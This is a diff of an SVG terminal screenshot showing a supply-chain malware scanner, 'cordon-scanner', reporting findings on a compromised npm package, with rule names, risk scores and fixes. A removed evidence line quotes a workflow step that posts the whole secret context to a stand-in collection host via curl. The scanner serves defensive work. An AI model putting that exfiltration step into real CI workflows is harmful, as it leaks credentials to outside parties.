

- <svg xmlns="http://www.w3.org/2000/svg" width="808" height="818" viewBox="0 0 808 818" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, &quot;DejaVu Sans Mono&quot;, monospace" font-size="13">
-   <rect width="808" height="818" rx="8" fill="#11141a" />
-   <path d="M0 8a8 8 0 0 1 8-8h792a8 8 0 0 1 8 8v26.0H0z" fill="#1b1f27" />
+ <svg xmlns="http://www.w3.org/2000/svg" width="925" height="530" viewBox="0 0 925 530" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, &quot;DejaVu Sans Mono&quot;, monospace" font-size="13">
+   <rect width="925" height="530" rx="8" fill="#11141a" />
+   <path d="M0 8a8 8 0 0 1 8-8h909a8 8 0 0 1 8 8v26.0H0z" fill="#1b1f27" />
  <circle cx="18" cy="17" r="6" fill="#ff5f57" />
  <circle cx="36" cy="17" r="6" fill="#febc2e" />
  <circle cx="54" cy="17" r="6" fill="#28c840" />
-   <text x="404.0" y="21" fill="#6e7681" font-size="11" text-anchor="middle">cordon-scanner — a compromised npm package</text>
+   <text x="462.5" y="21" fill="#6e7681" font-size="11" text-anchor="middle">cordon-scanner</text>
  <text y="61.0" xml:space="preserve">
    <tspan x="18.0" fill="#c9d1d9">$ cordon-scanner scan .</tspan>
  </text>
  <text y="97.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">cordon 0.1.0 · rulepack 0.1.0 (114fbabb75bd9898)</tspan>
-   </text>
-   <text y="133.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">CRITICAL MALWARE.CI.SECRET_EXFIL.001  risk 100/100</tspan>
+     <tspan x="18.0" fill="#6e7681">cordon 0.1.0 · rulepack 0.1.0 (a180c5ae6812f501)</tspan>
  </text>
  <text y="151.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  .github/workflows/release.yml:8:14</tspan>
+     <tspan x="18.0" fill="#39c5cf" font-weight="bold">.github/workflows/release.yml</tspan>
+     <tspan x="259.8" fill="#6e7681">1 finding</tspan>
  </text>
+   <rect x="64.8" y="157.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
  <text y="169.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  malicious · confidence high · detector config</tspan>
+     <tspan x="25.8" fill="#6e7681">7:35</tspan>
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  This workflow renders the whole secret context into a command.  </tspan>
+     <tspan x="642.0" fill="#6e7681">MALWARE.CI.SECRET_EXFIL.001</tspan>
  </text>
  <text y="205.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  This workflow renders the whole secret context into a command. Every</tspan>
+     <tspan x="18.0" fill="#39c5cf" font-weight="bold">scripts/setup.js</tspan>
+     <tspan x="158.4" fill="#6e7681">6 findings</tspan>
  </text>
+   <rect x="64.8" y="211.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
  <text y="223.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  secret available to the job is materialised as a string at that point,</tspan>
+     <tspan x="25.8" fill="#6e7681">4:59</tspan>
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  This install or build script reads credentials or the ...       </tspan>
+     <tspan x="642.0" fill="#6e7681">MALWARE.EXFIL.001</tspan>
  </text>
+   <rect x="64.8" y="229.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
  <text y="241.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  where it can be printed, sent anywhere, or written to an artefact. There</tspan>
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  This file reads credentials or the environment, opens an ...    </tspan>
+     <tspan x="642.0" fill="#6e7681">SUSPECT.EXFIL.001</tspan>
  </text>
+   <rect x="64.8" y="247.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
  <text y="259.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  is no legitimate reason to serialise the entire context.</tspan>
+     <tspan x="25.8" fill="#6e7681">7:1 </tspan>
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  This install or build script retrieves content over the ...     </tspan>
+     <tspan x="642.0" fill="#6e7681">MALWARE.DROPPER.001</tspan>
  </text>
+   <rect x="64.8" y="265.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
+   <text y="277.0" xml:space="preserve">
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  An install or build script reads a browser login ...            </tspan>
+     <tspan x="642.0" fill="#6e7681">MALWARE.EXFIL.CREDENTIAL_STORE.001</tspan>
+   </text>
+   <rect x="64.8" y="283.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
  <text y="295.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  evidence  - run: curl -X POST -d "${{ secret[redacted] }}" https://collect.example.invalid</tspan>
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  This file retrieves something over the network and ...          </tspan>
+     <tspan x="642.0" fill="#6e7681">SUSPECT.DROPPER.001</tspan>
  </text>
-   <text y="331.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  why       base 90 x 1.00 confidence = 90</tspan>
+   <rect x="64.8" y="301.0" width="62.4" height="18.0" rx="2" fill="#da3633" />
+   <text y="313.0" xml:space="preserve">
+     <tspan x="64.8" fill="#f0f6fc" font-weight="bold">CRITICAL</tspan>
+     <tspan x="127.2" fill="#c9d1d9">  This file reads a browser's saved-login database, an OS ...     </tspan>
+     <tspan x="642.0" fill="#6e7681">SUSPECT.EXFIL.CREDENTIAL_STORE.001</tspan>
  </text>
  <text y="349.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            install_time +15 (executes during install or build, as the user, before other controls)</tspan>
+     <tspan x="18.0" fill="#39c5cf" font-weight="bold">package.json</tspan>
+     <tspan x="127.2" fill="#6e7681">1 finding</tspan>
  </text>
+   <rect x="64.8" y="355.0" width="62.4" height="18.0" rx="2" fill="#f85149" />
  <text y="367.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            credential_access +12 (reads environment or key material)</tspan>
+     <tspan x="25.8" fill="#6e7681">4:1 </tspan>
+     <tspan x="64.8" fill="#484f58" font-weight="bold">  HIGH  </tspan>
+     <tspan x="127.2" fill="#c9d1d9">  The 'postinstall' script runs automatically during ...          </tspan>
+     <tspan x="642.0" fill="#6e7681">SUSPECT.INSTALL.SCRIPT.001</tspan>
  </text>
  <text y="385.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            clamped -17 (raw score 117 clamped into 0-100)</tspan>
+     <tspan x="18.0" fill="#6e7681">----------------------------------------------------------------------------</tspan>
  </text>
+   <rect x="18.0" y="391.0" width="93.6" height="18.0" rx="2" fill="#da3633" />
+   <rect x="135.0" y="391.0" width="62.4" height="18.0" rx="2" fill="#f85149" />
  <text y="403.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            total (clamped 0-100) = 100</tspan>
+     <tspan x="18.0" fill="#f0f6fc" font-weight="bold"> 7 critical </tspan>
+     <tspan x="111.6" fill="#c9d1d9"> · </tspan>
+     <tspan x="135.0" fill="#484f58" font-weight="bold"> 1 high </tspan>
+     <tspan x="197.4" fill="#c9d1d9"> · </tspan>
+     <tspan x="220.8" fill="#6e7681">0 medium</tspan>
+     <tspan x="283.2" fill="#c9d1d9"> · </tspan>
+     <tspan x="306.6" fill="#6e7681">0 low</tspan>
+   </text>
+   <text y="421.0" xml:space="preserve">
+     <tspan x="18.0" fill="#6e7681">3 files · 14ms</tspan>
  </text>
  <text y="439.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  fix       Reference individual secrets by name. If a step genuinely needs</tspan>
-   </text>
-   <text y="457.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            several, pass each one explicitly so the set is visible in</tspan>
+     <tspan x="18.0" fill="#6e7681">scan complete</tspan>
  </text>
  <text y="475.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            review.</tspan>
+     <tspan x="18.0" fill="#6e7681">Run again with -v for the evidence, the score derivation and the fix for each finding.</tspan>
  </text>
  <text y="511.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">CRITICAL MALWARE.DROPPER.001  risk 100/100</tspan>
-   </text>
-   <text y="529.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  scripts/setup.js:9:1</tspan>
-   </text>
-   <text y="547.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  malicious · confidence high · detector capability</tspan>
-   </text>
-   <text y="583.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  This install or build script retrieves content over the network and runs</tspan>
-   </text>
-   <text y="601.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  it. What executes is whatever the remote host chooses to serve at install</tspan>
-   </text>
-   <text y="619.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  time, so it is not pinned by the lockfile, not captured by review, and not</tspan>
-   </text>
-   <text y="637.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  reproducible. The package that was audited and the code that runs are not</tspan>
-   </text>
-   <text y="655.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  the same thing.</tspan>
-   </text>
-   <text y="691.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  evidence  const os = require('os');</tspan>
-   </text>
-   <text y="727.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">  why       base 90 x 1.00 confidence = 90</tspan>
-   </text>
-   <text y="745.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            install_time +15 (executes during install or build, as the user, before other controls)</tspan>
-   </text>
-   <text y="763.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">            credential_access +12 (reads environment or key material)</tspan>
-   </text>
-   <text y="799.0" xml:space="preserve">
-     <tspan x="18.0" fill="#c9d1d9">    ... 143 more lines</tspan>
+     <tspan x="18.0" fill="#c9d1d9">FAILED: 8 finding(s) met the failure policy (highest: critical)</tspan>
  </text>
</svg>
